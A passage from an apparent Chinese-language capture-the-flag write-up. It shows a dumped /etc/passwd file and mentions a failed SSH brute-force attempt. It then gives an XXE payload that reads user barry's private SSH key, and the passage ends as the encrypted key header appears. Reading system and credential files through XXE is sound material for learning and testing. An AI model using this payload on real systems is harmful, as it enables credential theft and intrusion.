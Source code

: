 root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
joe:x:1002:1002::/home/joe:/bin/bash
barry:x:1003:1003::/home/barry:/bin/bash
```

我们之前尝试爆破barry的ssh密码，但是被告知不允许密码登陆
利用xxe漏洞，我们尝试读取barry的ssh秘钥信息。用户秘钥一般放在```/home/$USER/.ssh/id_rsa```

我们构造下面payload
```
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >
]>
<root>
	<name>&xxe;</name>
</root>

```

成功收到秘钥回显
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E
